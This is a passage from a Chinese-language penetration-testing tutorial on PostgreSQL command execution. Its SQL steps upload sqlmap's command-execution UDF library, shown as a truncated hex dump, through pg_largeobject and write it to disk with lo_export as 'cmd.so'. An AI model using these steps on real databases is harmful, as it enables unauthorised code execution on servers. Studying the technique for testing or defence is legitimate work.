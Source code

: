 b）利用Perl/Python脚本语言功能  
  
在zone上看过一帖，http://zone.wooyun.org/content/1591，很纳闷为什么这样定义函数就可以执行系统命令，plperlu又是啥，经过资料的挖掘，发现是PostgreSQL自带的一种程序语言支持。  
  
具体可见这里（http://www.postgresql.org/docs/8.3/static/xplang.html）。  
  
大概意思就是PostgreSQL允许用除了SQL和C的其他语言来编写函数，但这个很悲剧啊，我的环境没有安装PostgreSQL的Python和Perl支持，待我弄个环境在来实现下过程。  
  
c）利用C语言自定义函数  
  
Perl、Python都能在PostgreSQL自定义了更不用说C了。这个在sqlmap的udf目录下有现成的，而且还是根据版本加了Pg_magic_func函数的，可以加载。。。牛鞭！  
  
```  
FengGou:8.4 $ pwd  
/Users/FengGou/sqlmap/udf/postgresql/linux/64/8.4  
FengGou:8.4 $ ls  
lib_postgresqludf_sys.so  
```  
  
将sqlmap的so文件转为16进制的代码，7F454C4602010100000000000000000003003E0001000000C00C0000000000004000000000000000A0170000000000000000000040003800050040001A00190001000000050000000000000000000000000000000000000000000000000000008413000000000000841300000000000000002000000000000100000006000000881300000000000088132000000000008813200000000000A802000000000000B00200000000000000002000000000000200000006000000B013000000000000B013200000000000B01... ...  
  
老他么长的一段，怎么还原成二进制的so库文件呢？这里感谢 @瞌睡龙 提供的Tips，这里用到了PostgreSQL的pg_largeobject“大对象数据”，官方原文：pg_largeobject 表保存那些标记着"大对象"的数据。 一个大对象是使用其创建时分配的 OID 标识的。 每个大对象都分解成足够小的小段或者"页面"以便以行的形式存储在 pg_largeobject 里。 每页的数据定义为LOBLKSIZE(目前是BLCKSZ/4，或者通常是 2K 字节)。  
  
a）查看PostgreSQL目录  
  
```  
SELECT setting FROM pg_settings WHERE name='data_directory';  
```  
  
b）查询oid  
  
```  
select lo_creat(-1);  
```  
  
oid为当前对象大数据的标识符，我们要利用这个存储UDF文件内容。  
  
c）oid与上面保持一致  
  
```  
delete from pg_largeobject where loid=18412;  
```  
  
等于变相清空"页面"，不要干扰库的生成  
  
d）把16进制的so文件塞进去  
  
```  
insert into pg_largeobject (loid,pageno,data) values(18412, 0, decode('7F454CXXXXXXXXX000', 'hex'));  
```  
  
e）利用PostgreSQL自带函数将大型对象导出到文件  
  
```  
SELECT lo_export(18412, 'cmd.so');  
```  
  